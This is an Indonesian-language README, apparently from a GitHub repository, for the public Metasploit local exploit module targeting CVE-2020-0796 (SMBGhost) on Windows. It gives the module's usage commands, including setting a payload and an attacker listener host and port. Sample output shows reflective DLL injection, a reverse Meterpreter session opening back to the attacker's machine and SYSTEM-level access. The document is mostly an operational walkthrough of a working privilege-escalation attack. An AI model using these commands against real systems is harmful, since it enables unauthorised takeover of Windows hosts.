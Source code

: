 # cve_2020_0796_smbghost

Terdapat kerentanan pada protokol Microsoft Server Message Block `3.1.1` (`SMBv3`) yang dapat dimanfaatkan untuk mengeksekusi kode pada server yang rentan.

Implementasi exploit lokal ini memanfaatkan kerentanan tersebut untuk menaikkan hak akses (`privilege escalation`), sebelum melakukan injeksi payload ke dalam proses `winlogon.exe`.

## Penulis
- [Daniel García Gutiérrez](https://www.umanresa.cat/ca/professorat/daniel-garcia-gutierrez)
- [Manuel Blanco Parajón](https://x.com/dialluvioso_)
- [Spencer McIntyre](https://github.com/zerosteiner)

## Platform
- `Windows`

## Arsitektur
- `x86`, `x64`


## Cara Penggunaan di Metasploit

```
use exploit/windows/local/cve_2020_0796_smbghost
set PAYLOAD <PAYLOAD>
set SESSION <ID>
set LHOST <IP_ATTACKER>
set LPORT <PORT_LISTENER>
set TARGET <ID>
set VERBOSE true
```

Hasil output-nya seperti ini:

```
[*] Started reverse TCP handler on 192.168.1.11:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Windows Build Number = 10.0.18363.0
[+] The target appears to be vulnerable.
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching netsh to host the DLL...
[+] Process 6076 launched.
[*] Reflectively injecting the DLL into 6076...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (203846 bytes) to 192.168.1.51
[*] Meterpreter session 2 opened (192.168.1.11:4444 -> 192.168.1.51:49782) at 2025-05-17 17:09:49 +0700

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```

## Referensi:
- [Rapid7](https://www.rapid7.com/db/modules/exploit/windows/local/cve_2020_0796_smbghost/)
